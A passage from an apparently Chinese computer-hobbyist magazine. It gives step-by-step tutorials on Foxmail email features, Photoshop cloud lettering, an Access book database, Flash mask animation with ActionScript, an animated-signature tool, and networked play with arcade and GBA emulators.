第二步: 如果你发现邮件内空无一字，很可能是由于邮件是HTML格式的，此时可点击右边的“浏览HTML”按钮，这样邮件内容就出来了(见图2)。



- **小提示**
Foxmail允许用户创建多个邮件账户，但在单击“收取”或“发送”按钮时，只会收取或发送当前选中的那个邮箱，如果想对所有邮箱同时进行收取或发送操作，可按下F4或F5键就可以了。

第三步: 来而不往非礼也。如果要回复朋友的邮件，可按下邮件工具栏上的“回复”按钮，这样会打开写邮件窗口，需回复的邮件地址被自动填写在“收件人”栏中，“主题”也自动填好了，接着输入信件内容即可。为了使邮件更美观，可以不直接单击“回复”，而是单击其右侧的下拉箭头按钮，在弹出菜单中有近十种漂亮的邮件模板可选，比如选择“心有灵犀”这个模板(见图3)。

- **小提示**
★ 在撰写新邮件或转发邮件时，都可以用上面的方法选择软件预置好的各种模板，不用费一点劲就能写出漂亮的邮件来。
★ Foxmail还提供有个性头像功能，应用后你的邮件都会带有一个动画头像，右击账户并选择“属性”，在“个人信息”项中可勾选“在邮件中使用个性图标”，然后再单击“选择图标”按钮选一个头像即可。

### 实例3: 邮件群发也可“暗送秋波”

逢年过节经常要给许多朋友发送祝贺的邮件，如果每封信都一一撰写未免太累，利用群发功能可以让你高效地将祝福传达给每位朋友。

第一步: 单击工具栏上的“撰写”按钮打开写邮件窗口，与图3所示一模一样，在“收件人”中填写某位好友的邮件地址，如“XXX@126.com”。

第二步: 点击菜单命令“查看→邮件头→暗送地址”，这样编辑区的“抄送”栏下会多出“暗送”栏，在这里输入其他好友的邮件地址，每个地址间用英文分号隔开(其实“收件人”栏也可以同时填写多个地址，同样也用英文分号隔开)，“主题”则输入“新年快乐，给您拜年了”之类的话。

- **小提示**
“抄送”和“暗送”有什么不同?
“抄送”表示除了在“收件人”填写的邮件地址会收到邮件外，在“抄送”栏输入的邮件地址也会收到邮件的副本。同时，别人会在收到邮件中看到其他人的邮件地址。
“暗送”表示隐藏的副本拷贝，虽然“暗送”栏中的邮件地址都会收到邮件副本，但无法看到其他人的邮件地址。看上去就像专门发给他一个人的邮件。

第三步: 最后在编辑区内输入你的祝福即可。如果想让邮件更为丰富多彩，则可点击菜单命令“格式→超文本格式邮件”，编辑区会发生一些变化，这时你就可以进行调整字体和字号、改变背景颜色、插入图片及声音文件等操作了。如果还想附带一个Flash贺卡，则可以直接单击工具栏“附件”按钮来添加相应文件，其实更简单的方法是在资源管理器中直接将这个文件(或多个文件)拖放到邮件编辑区。完成后，单击工具栏的“发送”按钮即可将邮件发出。

## 会用还要用好 Foxmail 进阶实例

### 实例1: 一劳永逸的个性化签名

许多朋友为了方便好友、客户及时与自己联系，都会在自己的电子邮件末尾加上住址、QQ、手机等联系信息。在Foxmail中你可以通过定制模板的方法，实现联系信息自动添加。

第一步: 在Foxmail中执行“工具→模板管理”菜单命令打开“模板管理”对话框。模板分为“新模板”、“回复邮件模板”和“转发模板”，你可以任选一款模板对其编辑修改，本例选择的是“普通信件”，它是一款文本模板(其他皆为HTML模板)。

第二步: 你会发现模板中许多带百分号“%”的参数(HTML模板中显示为带文字说明的图片)，它们是Foxmail内置的一些宏，当模板转为真正邮件时，这些宏就会自动变成收件人姓名、发件人姓名、发件人地址、发件日期等信息。这里暂且不要管它，只要如图4所示在最底部加上自己的个性化签名信息即可。

第三步: 单击工具栏中的“另存”按钮(如单击“保存”按钮将覆盖当前的模板)，输入模板名称(如“带签名模板”)并选择模板保存类型(如“新邮件模板”)，确定后关闭模板管理对话框。以后，当需要发送带有自己签名的邮件时，单击工具栏中“撰写”按钮右侧的下拉箭头，选择“带签名模板”就可以。

第四步: 如果想要在点击主窗口工具栏上的“撰写”、“回复”或“转发”按钮时，就直接采用自己制作的模板，可执行“账户→属性”菜单命令，在“账户属性”对话框左侧点选“模板”，在窗口右侧单击“新建”、“回复”或“转发”标签，分别单击“默认模板”中的“浏览”按钮选择自己制作的模板即可(见图5)。






### 实例2: 让Foxmail为我自动分拣邮件

许多朋友的邮件量很大，管理和查找邮件都很不方便，因此最好让Foxmail能够自动帮你分拣邮件，比如:来自同事的邮件在接收后自动归类到“同事”文件夹，来自家人的邮件自动保存到“家人”文件夹。

- 第一步: 在Foxmail左侧上方窗格中右击某个账户并选择“建新邮箱”命令，接着将其命名为“同事”。
- 第二步: 再次右击刚才的账户，选择“过滤器”命令打开“过滤管理”窗口，接着按照如图6所示进行设置。
- 第三步: 进入“动作”选项卡，勾选“转移到”，接着按下其后的浏览文件夹图标，选择刚才新建的“同事”文件夹。
- 第四步: 利用上述方法将同事的邮件地址一一设置为过滤器，以后只要Foxmail收到过滤器中设置的发件人的邮件，就会自动把它们移动到“同事”邮箱。



### Just Do It: Foxmail的过滤器还能够分拣你发出的邮件，这也很有用，请自行设置过滤器，将发给同事的邮件都保存到“发给同事”邮箱中。

### 实例3: Foxmail帮我自动回信

在E-mail礼仪中，及时回复邮件很重要，这才能体现出你充分尊重对方，即使来信中提到的事情不能马上答复，也应该立即回复一封邮件告诉人家邮件已收到，而Foxmail能让我们轻松实现自动回复。

- 第一步: 让Foxmail实现自动回复的前提是使它自动收取邮件，因此应右击某个账户并选择“属性”，在打开的窗口中选择“接收邮件”项，选中“每隔XX分钟接收新邮件”。
- 第二步: 右击账户并选择“过滤器”，接着在打开的窗口中单击“新建”按钮并把它命名为“自动回复”，和上个实例相同，设置条件为“发件人”(也就是同事或朋友的邮件地址)，而“动作”选项卡中则勾选的是“自动回复”。
- 第三步: 窗口会多出一个“回复模版”标签，单击这个标签，如图7所示，在“%OFROMNAME，您好!”下面输入你要回复的邮件内容即可。以后Foxmail将自动以这个模板来回复所有收到的邮件。



**小提示:** 在垃圾邮件猖獗的今天，最好不要设置对所有邮件进行自动回复，因为这样很容易招致更多的垃圾邮件。

### 实例4: 巧用过滤器封堵特殊垃圾邮件

我们在今年第四期《垃圾邮件 你真的惹恼我了!》一文中介绍了如何充分利用Foxmail的防垃圾邮件功能。不过，目前垃圾邮件制造者也很聪明，他们使用各种方法来侵袭你的邮箱，所以你会发现Foxmail的黑名单、贝叶斯过滤、规则过滤还是会漏掉一些垃圾邮件。这时最好利用过滤器再设一道防护墙(由于过滤器设置比较简单，因此下面只提要点，不再详细叙述)。

- (1) 总是包含特定主题: 目前许多垃圾邮件的特点是，虽然发件人及邮件标题一样，但邮件地址却总是在变化，因此即使你将邮件地址加到黑名单也没有用。
  “位置”设置为“主题”，同时“包含”应为这些垃圾邮件的标题(见图8)。“动作”选项卡应设置为“直接从服务器删除”。
- (2) 没有发件人: 一些垃圾邮件没有发件人的邮件地址，并且标题总在变化，但只要是电子邮件地址就一定有“@”符号，因此可利用此特性来设置过滤器。
  “位置”为“发件人”，条件设置为“不包含”，在后面文本框中输入“@”(不含引号)，“动作”设置为“直接从服务器删除”。
- (3) 收件人不是你: 很多垃圾邮件会有一个特征，那就是收件人的地址不是你的邮件地址，或者是空白，或者是伪造的地址。
  “位置”为“收件人”，条件为“不等于”，后面文本框中输入你的邮件地址即可，“动作”设置为“直接从服务器删除”。



**小提示:** 如果你每天都收到大量垃圾邮件，推荐你使用Foxmail提供的远程管理功能先对邮件进行筛选和过滤，单击工具栏上的“远程管理”按钮打开远程管理窗口，Foxmail很快会下载完所有邮件头信息，选取邮件(配合Ctrl或Shift键可多选)后就可以执行“不收取”、“添加到黑名单”、“收取”、“收取并删除”或“在服务器上删除”等操作了，最后点击工具栏上的“执行”按钮执行即可。

### 实例5: 邮件也要特快专递

你是不是遇到过这种情况: 电子邮箱提供商升级邮件系统，服务器暂时不可用，但又急需将自己的重要邮件送出，难道非要注册申请另外的电子邮箱?其实可以使用Foxmail的特快专递功能，从自己的电脑中直接将邮件发出去。

- 第一步: 单击菜单命令“工具→系统设置”，在打开的对话框中选择“邮件特快专递”标签，在“域名服务器DNS”中输入自己常用的域名服务器地址，如笔者的为“202.99.160.68”。
- 第二步: 像平时一样写好邮件后，不要单击“发送”按钮，而是单击“特快专递”按钮，就可以直接发送邮件了。

**小提示: 如何获取域名服务器DNS地址**
确保你的电脑为在线状态，如果你用的是Windows 2000/XP/2003，可在命令提示符窗口中输入“ipconfig /all”命令查询本机IP地址信息；如果使用的是Windows 9x，则在“开始→运行”中执行“winipcfg”命令，即可查询出本机IP地址；如果你的电脑是通过单位局域网上的服务器上网的，则输入网管分配给你的IP地址即可。

## 在天空写下‘我爱你’——云彩字制作

### 用白云写字

还记得那条经典的手机短信吗？“我在天空中写下你的名字，让风儿带走了……”虽说后面流于搞笑，但是想像一下，在天空中用洁白的云彩写下爱人的名字，该是多么浪漫的一件事情啊!今天我们就来实践一下，为避免写下的字被风儿带走，我们用Photoshop来实现。

- 第一步: 启动Photoshop，新建一个500像素×300像素的文件，为背景填充天蓝色(R:120 G:200 B:255)，这就是供我们书写的“天空”了。
- 第二步: 绘制文字路径。为了不给读者朋友带来困扰，笔者在这里不写任何人的名字，而是改写英文的“I Love You”，其中Love用心形代替，You简写为U——这是一种很时髦的写法。Photoshop的自定义形状中有现成的心形图案可用，先在工具箱中选择钢笔工具，然后在选项工具栏左侧单击选择三种模式中的第二种——路径模式(见图1)。接着点选自定形状工具按钮，在其右侧的“形状”下拉菜单中找到心形图案。设置完毕，按住Shift键不放，并在画布中间偏左一点的地方单击并拖动，画出一个大小合适的心形路径(见图1)。接着，依旧使用钢笔工具在心形左侧通过两次单击勾出一条纵向直线(按下Shift键可以使直线保持垂直方向)，这就是英文“I”了。
  > **小提示**
  > 写完“I”后要记得按住Ctrl键并在画布上单击一下，这样可以结束路径的绘制，否则再次单击时会和前面的路径连在一起。
- 第三步: 写“U”要复杂一些，首先用钢笔工具连续点击5次，形成一个“V”字形，然后在工具箱中右击钢笔工具，从弹出的子工具箱中选择转换点工具，拖动“V”最底下的节点，将下面的线段调整为曲线，变成英文“U”(见图2)。此时在路径调板上，可以看到当前为“工作路径”，双击它将其改名为“我爱你”，这样我们绘制的路径就可以随着文件一同保存了。
- 第四步: 为路径描边，这也是本例最关键的一步。选择画笔工具，在选项工具栏右侧的调板井中选择画笔调板，我们将要在这个调板中进行大量的设置，为了方便可以将其拖出调板井，使之成为浮动的调板。
  - (1) 首先在左边选择“画笔预设”，在右边选择直径为35像素的柔软画笔；
  - (2) 接着选择“画笔笔尖形状”，在右边最下方勾选“间距”选框，再将数值改为20%，其余选项保持默认即可；
  - (3) 选择“散布”，设置散布为150%，并勾选“两轴”选框，数量为4，数量抖动为80%；
  - (4) 选择“纹理”，在右边单击纹理下拉菜单，选择Photoshop自带纹理的最后一个，并勾选“反相”选框，设置缩放为100%，不要选择“为每个笔尖设置纹理”选框，模式选择为“颜色加深”，深度为100%；
  - (5) 选择“动态颜色”，设置前景/背景抖动为50%，其余选项均为0%；
  - (6) 选择“其他动态”，不透明度抖动和流量抖动均设置为25%；
  - (7) 勾选“平滑”和“保护纹理选框”。
  在选择和设置的过程中，可以随时在调板的最底部看到画笔的预览图。需要强调一点的是，所有的控制下拉菜单都选择为关。好了，画笔准备好了，下面可以进行描边了。将前景色设置为R:120、G:200、B:255。在图层调板上，新建一个图层，命名为“云彩字”。在路径调板上，选择路径“我爱你”，然后单击调板底部的“用画笔描边路径”按钮(左边第二个)，可以看到路径被描上了白色的云彩状的边缘(见图3)。
- 第五步: 在路径调板上的空白处单击，取消对路径“我爱你”的选择，此时图像窗口中的路径便隐藏起来。现在的云彩字略显单薄，我们再来加工一番。在图层调板上，复制“云彩字”图层，再将副本图层的混合模式改为叠加(Overlay)。这样一来，云彩字就显得厚重了许多。选择“云彩字”图层，单击调板底部的“添加图层样式”按钮，选择“斜面和浮雕”样式，在对话框中，选择样式为“内斜面”，方法为“平滑”，大小为3像素，软化为0，其余选项保持默认即可。确认后，可以看到云彩字有了一些立体感(见图4)。注意: 我们只需对下面的“云彩字”图层添加图层样式，上面的副本图层不需要改变，否则反倒使效果变得糟糕了。








本实例的制作到此就结束了。天空的云彩已经道出了我们的心声，还不赶快为自己的爱人制作一幅，让她(他)好好感动一番!

> **小提示**
> 第四步中对画笔的设置是本例的关键，其实在设置好画笔后，不需要进行绘制路径等操作，直接手工描画就可以“写”出云彩字来。

### Just Do It: 设置好画笔的动态参数，一笔即可画出如图5所示的满纸枫叶，大家不妨试试。



## 1小时学会Access 轻松打造个人图书管理系统

说起数据库，有些人会觉得很神秘，其实它不过是一些数据信息的集合而已，比如记录着同事、同学电话的通讯录，放有一大堆名片的名片夹等，都算得上是数据库，而像公司人员资料、商店库存清单等就更不用说了。数据量一多，对数据进行输入、查找、归类等操作时会很不方便，这时不妨借助数据库软件来协助我们工作。今天要给大家介绍的Office套件中的Access，就是一款能让你的管理工作轻松自如的桌面数据库软件。

### 任务: 打造个人图书管理系统

任务描述: 本文目的是通过Access建立一个个人图书管理系统(可包含音乐CD、数据光盘等电子书)，帮助我们管理好每一本图书。这个数据库可以记录每本书的基本资料，能随时增加或删改图书记录，还可以按照不同条件快速查找个人藏书的各种信息。如果同学、朋友之间都能建立起这样一个数据库，将数据库合并后，俨然是一个小型图书馆，通过查询可以看看自己需要的图书是否有人买了，如果有的话则可以借阅一下，不必再重复投资。
注: 本例使用的是Access 2003版，其他版本操作步骤大同小异。

### 给数据搭建一个“库房”

首先要建立一个空的“库房”(数据库)，然后才好往里面装入数据。

第一步: 启动Access 2003，单击菜单命令“文件→新建”(或单击工具栏上第一个“新建”按钮)，在右侧“新建文件”窗格中单击“空数据库”项。

第二步: 在打开的新建对话框中设置好文件名及保存路径，本例命名为“个人图书管理”，接着单击“创建”按钮(见图1)，一个新的数据库就创建好了。



### 用“表”规划与存储数据

房子建好了还需要装修一下，才能达到更好的居住效果，数据库也一样，建好了也得好好规划一下，以便保存不同类型的数据。在Access中，“表”是规划数据库的核心，其主要作用是按照一定结构保存所有数据，其他如查询、报表等操作都需在此基础上才能完成。

第一步: 首先规划一下表结构。图书信息有很多，本例仅仅是一个演示，因此本例创建的图书基本信息数据表只设置了序号、书名、作者、出版社、购买日期、定价、图书类别、介质和内容简介等几个字段。

第二步: 如图2所示，单击数据库主窗口左侧“对象”下的“表”按钮，接着双击右侧的“使用设计器创建表”项打开设计视图窗口，在“字段名称”的单元格中输入字段名，单击其右侧的“数据类型”单元格，从下拉列表中为每个字段设置一种类型。本例中，序号选“自动编号”，购买日期选“日期/时间”，定价选“货币”，内容简介选“备注”，其他都选择的是“文本”。可以在窗口下面的字段属性中对数据类型进行具体的设置，比如“文本”数据类型的默认长度是50个字符，遇到长书名时就不够用了，所以可在其常规项中将“字段大小”改为255，而像作者名，20个字符肯定够了。

第三步: 设置好所有字段及数据类型后，数据表框架就算完成了。Access建议每个数据表都要设置一个主键字段，这样才能定义与数据库中其他表间的关系。用鼠标在“序号”单元格中点击一下，然后再单击工具栏上的钥匙图标，就可以以此字段设置为主键了。按Ctrl+S快捷键保存一下，第一次保存数据表将会弹出一个另存对话框，输入数据表名称(本例为“图书基本信息”)后确定即可。

第四步: 关掉设计视图窗口，这时会在数据库主窗口中看到刚才保存的“图书基本信息”表，双击打开它进入数据表视图窗口，现在就可以往数据表中添加数据了。数据输入方法与在Excel中相似，先用鼠标点击一下某单元格再输入即可，按Tab键或回车键可快速进入下一个单元格中，按上下左右箭头键也可快速在不同单元格中切换。



## 软件·实用软件
## 电脑爱好者

序号字段选择的是自动编号类型，这里不用手工输入，软件会自动按顺序填写数字的；购买日期字段选择的是日期/时间类型，比如输入“04/10/2”或“04-10-02”，它都会自动转换成标准格式“2004-10-02”；定价字段选择的是货币类型，输入数字回车确定后，会自动加上符号“￥”(见图3)。



## 小提示

文本与备注类型，都是用来保存字符信息的，不过文本类型最多能保存255个字符，而备注类型最多达到6万多字符，大家可根据字段的属性进行选择。

第五步：图书的类别，各人可根据自己的实际情况划分，比如笔者将自己的所有图书大致归为计算机、文学、艺术、英语、饮食、哲学、历史、娱乐休闲、其他共九大类。对于这些项目有限的数据，可以将其制作成列表，输入时只要用鼠标选一下就可以了。

- (1) 双击“使用设计器创建表”创建一个新的数据表，命名为“分类”，只设置一个字段：类别名称。保存时会提示你设置主键，单击“否”不设置。关掉设计视图，双击打开该数据表，如图4所示分别输入图书的类别。



- (2) 在数据库主窗口右侧点选“图书基本信息”表，再单击“设计”按钮进入设计视图窗口。点击该表中“图书类别”字段，然后点击字段属性下面的“查阅”选项卡，点击“显示控件”后面的输入框，在下拉列表中选择“组合框”，然后将“行来源类型”设置为“表/查询”，再点击“行来源”后面的输入框，从下拉列表中选择刚才建立的“分类”表。

- (3) 按Ctrl+S键保存，再单击数据库主窗口上的“打开”按钮进入数据表视图窗口，此时再点击“图书类别”字段，会显示一个下拉按钮，单击它弹出列表，点选相应的图书类型就可以了，非常方便(见图5)。以同样方法还可以为其他字段设置下拉列表，比如介质可设置为“纸质”、“CD”、“硬盘”项，创建一个名为“介质”的新表，再按上面的方法把它与“图书基本信息”表中的“介质”字段绑定就可以了。



## 用窗体给数据穿上漂亮的外衣

当需要输入的数据量很大时，在表格中输入既不方便也容易出错。这时可借助Access的窗体功能，使数据输入更为直观、方便。

第一步：在数据库主窗口左侧单击“窗体”按钮，然后在右侧双击“使用向导创建窗体”打开向导窗口(见图6)。在“表/查询”下拉列表中选中“表:图书基本信息”，然后单击中间的“>>”按钮将“可用字段”中的所有字段都加到“选定的字段”中。



第二步：单击“下一步”，接下来的窗口用来设置窗体的排列方式，这里就选择“纵栏表”。再单击“下一步”，选择窗体的显示样式，笔者觉得“混合”样式比较好看，所以选择了该项。继续单击“下一步”，为窗体指定一个标题，这里用默认的“图书基本信息”就可以了。最后单击“完成”按钮，结束窗体的创建。

第三步：默认情况下创建完成后窗体即会自动打开，就可以输入数据了。也可以在数据库主窗口的“窗体”项中，双击刚才建立的窗体打开它。如图7所示，在这样的界面中输入数据是不是方便了很多。按Tab键、回车键、上下左右箭头键可以在各个输入框中快速切换。输入完一条记录后，会自动进入下一条记录，也可以通过它下面的多个导航按钮在所有的图书记录中进行浏览、修改。



## 查询：获得问题的答案

数据库的特长就在于它的快速检索功能，在Access中通过设置条件，可以快速查找出符合要求的图书记录，比如2003至2004年买过什么书，30到40元之间的都有哪些书，某个出版社或某位特定作者的书等。下面以找出藏书中所有英语类的图书为例，一窥Access强大的查询功能。

第一步：在数据库主窗口左侧单击“查询”，在右侧双击“在设计视图中创建查询”项。将会显示查询设计视图窗口，并且会弹出一个“显示表”对话框。点选前面创建的“图书基本信息”表后单击“添加”按钮将其加到查询设计视图中，最后单击“关闭”按钮退出“显示表”对话框。

第二步：如图8所示，单击“表”行的单元格，从下拉菜单中选择前面创建的“图书基本信息”表，然后单击其上的“字段”行单元格，选择该表中的“书名”字段，确保“显示”行的复选框为选中状态，表示这个字段在最终的查询结果中将显示出来。以同样的方法添加其他想要显示的字段，最后再加上“图书类别”字段，取消其“显示”行中复选框的选择(最终查询结果将不显示该字段)，并在“条件”行输入关键词“英语”(英文双引号)，表示筛选出该字段值为“英语”的所有记录。


第三步：按Ctrl+S键保存，第一次保存会弹出“另存为”对话框，输入查询名称(如“英语书”)后确定。关掉查询设计视图窗口，会发现查询列表中多出了“英语书”一项，双击它就会惊奇地发现，数据库中图书类别为“英语”的图书记录都显示出来，并且每个记录只显示出我们所关心的那几个字段。

以后你在数据表中追加更多的记录时，随时双击刚才所创建的查询“英语书”，它都能找出所有英语类别的书来。当然，查询只是对数据表中的数据进行重组而已，它本身并不会改变表中的数字。

第四步：如果你觉得查询结果显示太老土，可以用窗体的形式来显示结果，制作方法与前面的一样，只是在“表/查询”下拉列表中一定要选中“查询:英语书”项。

本文只是一个简单的实例，主要是为了打破你对Access的陌生感，其实有很多功能我们都没有涉及到，比如打印报表、生成网页数据库以及使用VBA编程实现更多更复杂的功能等。以后有机会，我们会介绍更多Access方面的有用实例。

(北京 梦寻)

## 学用Flash遮罩层
### 打造超酷动画效果
### 巧用遮罩实现酷炫动画特效
### 实例1：文字在春风中穿梭

第一步：启动Flash MX 2004，点击菜单命令“文件→新建”新建一个Flash文档，进入编辑窗口，执行“文件→导入→导入到舞台”命令将事先准备好的图片(本例为“素材1.jpg”，本文涉及到的素材、动画成品及源文件，皆可在http://www.newhua.com/cfan/200505/flash.rar中下载得到)导入。

第二步：单击当前图层1的第40帧，并按F6键在该处“插入关键帧”，并在该帧中将导入的JPG图片向右移动一段距离，接着再右击第1帧，从右键菜单中选择“创建补间动画”命令。

第三步：点击“时间轴”面板左下角的“插入图层”按钮，然后用鼠标点选新建的“图层2”的第1帧，再使用工具箱中的“文本工具”在工作区内图片上单击并输入“电脑爱好者”五个字，隶书，66号字。同样，在图层2的第40帧处按F6键插入关键帧。最后，右击时间轴上图层2名称处，选择“遮罩层”(见图1)。好了，按下“Ctrl + 回车”组合键预览一下效果，文字是不是有种在绿色春风中穿梭的感觉。

### 实例2：轻松制作转场效果

经常看到别人Flash动画中的转场效果非常炫，是不是很羡慕，其实用遮罩做起来很



### 实例3：更加复杂的棋盘转场效果

在Flash MX中新增了“SetMask”脚本命令，它可以对两个MC(影片剪辑的简称)进行遮罩，使用这个命令可以做出更多超炫效果，我们来试着做一个“棋盘”遮罩转场效果。

第一步：新建一个Flash文档，执行“文件→导入→导入到舞台”命令将图片A导入到图层1的第1帧中，再点击“插入图层”按钮加入图层2并按照同样方法导入图片B。

第二步：点击“插入→新建元件”(快捷键Ctrl + F8)，创建一名称为“Son”的影片剪辑元件(MC)。然后在元件编辑窗口的图层1中利用“矩形工具”画一个宽和高均为20像素的正方形，X和Y坐标均为0，再按下“Ctrl + G”键组合图形。在第20帧插入关键帧，并在属性面板中将正方形的宽设为1像素，然后右击第1帧选择“创建补间动画”命令。点击“插入图层”按钮插入图层2，图层2中的矩形及动画和图层1中完全一样，不同的是矩形的X坐标为-10，Y坐标为20。同样方法再插入图层3、图层4等图层，最后图层排列如图2所示。



第三步：点击任意图层中的第1帧(本例是在图层1中)，再单击打开舞台下方的“动作-帧”面板，在其中输入AS(动作脚本的简称)：“Stop();”(不含引号，下同)，再在每个图层的最后新增加一个空白关键帧，同样输入代码：“Stop();”。

第四步：按下Ctrl + F8组合键新建一个名为“Father”的影片剪辑，按下Ctrl + L组合键打开库面板，在其中将“Son”影片剪辑拖入到第一帧，如图3所示，在属性面板中将它的“实例名称”改为“Maskfull”，我们将在下面的AS脚本中调用此实例名称，一定要保证准确无误，并右击图层1的第3帧，选择“插入帧”命令。

插入图层2，我们将在此层中书写一些AS脚本代码，在图层2的第1帧的动作面板中，输入代码：“stop();”在第2帧中的动作面板中输入以下代码：

```
maskfull._width = 10;
//赋值 maskfull 宽
maskfull._height = _root.pic1._height;
var pic1_x = _root.pic1._x-this._x;
var pic1_y = _root.pic1._y-this._y;
//取得需要做转场效果的图片MC的X轴、Y轴坐标
var i = _root.pic1._width/10;
while (i>0) {
    duplicateMovieClip(this.maskfull, "maskfull" + i, i);
    setProperty("maskfull" + i, _x, pic1_x + (i-1)*10);
    setProperty("maskfull" + i, _y, pic1_y);
    i = i-1;
}
//复制多个遮罩并设定坐标
_root.pic1.setMask(_root.mask);
//使用遮罩语句命令实现遮罩
```

在第3帧的动作面板中输入以下代码：

```
var p = _root.pic1._width/10;
while (p>0) {
    with (this["maskfull" + p]) {
        play();
    }
    p = p-1;
}
```



gotoAndStop(1);

第五步：点击编辑条左上角的“场景1”按钮返回主场景，选中图层2中的图片，按下F8键将它转化为一个名为“被遮罩图”的影片剪辑，并在它的属性面板中将它的“实例名称”改为“Pic1”；从库面板中将“Father”影片剪辑拖入到主场景中，在它的属性面板中将它的“实例名称”改为“Mask”。

## 小提示
为了使它不遮挡视线，可以将其拖放到影片场景外，因为在AS中会对它赋值的，此时不必理会它在编辑器中的位置。

第六步：执行“窗口→其他面板→公用库→按钮”命令，从“按钮”库中选择一个喜爱的按钮拖放到主场景中，并在此按钮的动作面板中输入：“on (release) {mask.play()}”。一切搞定，按下Ctrl + 回车组合键预览一下，单击按钮，果然显示出奇妙的棋盘式转场效果来(见图3)。

## 知其所以然：轻松认识遮罩层

在上面3个实例中，都用到了Flash的遮罩层，其实这个功能理解起来很简单，它就像是一层窗户纸，捅破后就能看到屋子里面的情况了，根据捅破的“孔”的形状、大小、位置不同，决定了我们的眼睛能够看到屋子里不同范围的情况。当在Flash中建立了一个遮罩层后，它就会将它下面图层中的图像完全遮挡住，通过不同的方法在遮罩层上挖几个不同形状、大小的孔，就能看到底层图像的不同部位，动态移动这些“孔”还能产生奇特的动画效果，比如巧妙使用遮罩层，可以产生动态文字、动画转场、舞台聚光灯、渐隐渐现动画偷窥动画等多种效果。

(河北 闫艳力)

## 又是文档 制作酷酷的震动签名

在论坛中让别人在最短的时间内记住你的方法就是有一个特别的签名档。这里给大家介绍一款名为Ugo tool的软件，它是一个用来生成可以震动的GIF动画的小工具，通过它可以制作出独一无二的签名。

## Ugo tool小档案
| 软件版本 | 1.33 |
| :--- | :--- |
| 软件大小 | 588KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/38120.htm |

第一步：打开Ugo tool，在主界面上利用工具，拖拽鼠标进行绘画(见图1)。如果画错了，可以点击“删除末尾的顶点”按钮(快捷键Ctrl + Z)来删除末尾的节点。在绘画之前，最好是按Ctrl + Y先禁止震动(再按Ctrl + Y恢复)，这样有利于更好地进行绘画。

第二步：图像都画好后，接下来对震动参数进行设置(快捷键Ctrl + P)。可以根据自己的实际情况来设置震动的幅度、图像的尺寸和颜色。



## 小提示
Ugo tool还提供了VTR模式，这个模式就是采用了手绘动画记录的方法。只要在工具栏上点击VTR按钮，就能预览到VTR模式输出的效果了。

第三步：最后输出的动画可以保存UGM和GIF两种格式。其中UGM是Ugo tool自带的格式，特点是体积小，但只能用Ugo tool才能打开。一般我们都保存为GIF格式。虽然体积大一点，但可以直接用到论坛或其他地方。保存方法很简单，只要点击工具栏上的“输出为GIF格式文件”按钮即可(见图2)。设置好文件的保存位置、GIF文件的宽度/高度、是否采用抗锯齿技术和背景是否透明等参数，如果需要输出VTR动画，则选择“VTR动画”项即可，最后单击“制作”按钮就能生成GIF动画文件了。



(辽宁 小新)

> 一个软解压VCD播放软件，比如超级解霸，你可以称它为VCD播放软件，也可以叫它影碟机模拟器。一般来说，模拟器是一种计算机应用程序，它可以使某个硬件平台上的程序软件在其他的平台上运行。
——白金之星《模拟器FAQ》

模拟器使我们可以在计算机上玩到不同平台上的游戏。但我们可以做得更多，甚至是与远方的好友联机对战。

## 街机篇

Kaillera是一个很好的模拟器联机插件，它支持多种模拟器，其中包括我们常用的街机模拟器Kawaks、Mame及Nebula等。除此之外，它还支持Nemu64、Gens等家用游戏机模拟器的联机。下面我们就来与好友联网玩游戏(如果你要加入已经有的服务器，可跳过前两步)。

第一步：下载Kaillera的服务器端(下载地址:http://www.nullsoft.com/free/kaillera/kaillerasrv-0.86-win32.zip)，解压后得到三个文件，kaillerasrv.txt(说明文件)、kaillerasrv.exe(服务器端程序)、kaillerasrv.conf(配置文件)。

第二步：用“记事本”打开kaillerasrv.conf。里面主要分为二部分：“；”开始的说明部分和用等式表示的配置项目(把等号后面改为你想要的设置)，主要参数有下面这些。

“ServerName=”根据你的需要设置服务器名，比如ServerName=CFanEmu；“MaxUsers=10”表示最大的连接数，超过这个值就不能再连接到这个服务器了；“Port=27888”为服务器使用的端口，请确认网络防火墙已经打开此端口；“Public=1”为连接类型，如果只是在局域网内玩游戏的话设为“0”，否则设为“1”。

设置好后保存并关闭文件，运行kaillerasrv.exe，看到“Touching done!”表示服务器端启动成功(见图1)。



第三步：下载包含有Kaillera的Mame(下载地址:http://www.nullsoft.com/free/kaillera/mame32-067-414-ka09.exe)，打开Mame模拟器，选择菜单File→Play network game(文件→联网游戏)。

> 小提示
如果是Kawaks，则选择菜单File→Start netplay(文件→开始网络游戏)。如果是Nebula，运行安装目录下的Nebulanet.exe打开Kaillera客户端窗口。

第四步：在打开窗口的Username(用户名)处填写你的昵称，如“CFan”，然后点击Enter IP按钮，输入你自己的IP地址(见图2)，进入刚刚在本机建立的Kaillera服务器，按Connect。连接成功后就会弹出显示服务器状态的窗口。

> 小提示
点击Refresh list(刷新列表)按钮，就可以搜索到很多游戏服务器，双击就可以进入。

第五步：点击窗口下侧的Creat new game(新建游戏)并在弹出菜单中选择一个游戏。这时将你的IP地址告诉好友，然后让对方按照第三及第四步的方法进入你的服务器，并在游戏中选择游戏，点击Join加入，最后，点击Start game(开始游戏)按钮就可以开始游戏了。注意，新建或加入游戏都必须有相应的游戏ROM才可运行。



## GBA篇

GBA掌机可以通过通讯电缆或附件进行通讯。如果是在电脑上联机玩GBA呢？其实GBA模拟器也可以通讯的，例如知名的VBALink等。

很多人都知道GBA上有很多游戏是可以联机的，而且一些特殊物品或装备需要联机交换后才可以得到，那么在一台电脑上联机实现“模拟联机”(同时开两个窗口)或是在局域网内进行联机就很有必要了。这里我们使用的联机软件就是VBALink，它是VBA模拟器的通讯版本，你可以从http://vbalink.wz.cz/vbalink172l.zip下载到它。

第一步：解压缩下载后的软件，运行VisualBoyAdvance.exe文件，选择菜单中的Options→Link(选项→连接)，在弹出窗口中选择LAN(见图3)。这时会提示你要重启VBALink才能完成配置，单击“确定→OK”按钮后重启VBALink。



第二步：运行解压缩后的Vbaserver.exe(服务器端程序)文件。在打开的DOS窗口中输入玩家数(2-4人)，按回车键确定，这时会显示出服务器端的IP地址。

第三步：重新运行VisualBoyAdvance.exe，选择菜单中的Options→Link，在弹出的窗口中选择玩家数，并在Server IP中输入服务器端的IP地址，单击Connect按钮。连接成功后会弹出提示成功的窗口，单击“确定→OK”按钮后回到主窗口。

第四步：这时服务器端的窗口会显示有一个玩家连接到服务器端，当所有玩家都成功连接时就会显示OK(见图4)。现在打开可以通讯的游戏后就可以联机了。

